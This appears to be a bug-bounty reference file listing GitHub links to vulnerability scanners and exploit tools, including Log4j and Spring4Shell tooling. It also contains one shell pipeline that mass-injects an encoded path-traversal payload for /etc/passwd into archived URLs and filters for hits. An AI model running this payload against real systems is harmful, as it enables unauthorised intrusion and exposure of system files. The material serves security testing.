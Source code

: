  This file contains the list of tools or scripts which can be directly run on the subdomains list to find the vulnerabilities

> Automatic Vulnerability Detection and Exploit
```
Automation
https://github.com/zan8in/afrog
https://github.com/adrianscheff/pegaxss
https://github.com/zhzyker/vulmap
https://github.com/Dheerajmadhukar/karma_v2
https://github.com/yogeshojha/rengine
https://github.com/Chudry/Xerror
https://github.com/R0X4R/Garud
https://github.com/chaitin/xray
```

> 1. Apache Vulnerability Scanner
```
https://github.com/imhunterand/ApachSAL
https://github.com/p0dalirius/ApacheTomcatScanner
```

> 2. Local File Include Check:
```
> https://github.com/hansmach1ne/lfimap
LFI at scale 🔥🔥🔥🔥
cat rootsDomains.txt | waybackurls | qsreplace ".%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd" | httpx -silent -nc -mr "root:x:" -t 250 
```

>Log4j Vulnerability Test
```
https://github.com/cyberqueen-meg/log4j-bypass
https://github.com/PushpenderIndia/Log4jScanner
https://github.com/thecyberneh/Log4j-RCE-Exploiter
https://github.com/palantir/log4j-sniffer
https://github.com/trickest/log4j
```

> Sprint4shell scanner
```
https://github.com/fullhunt/spring4shell-scan
```


> Image EXIF-Metadata find
```
https://github.com/aydinnyunus/exifLooter
```
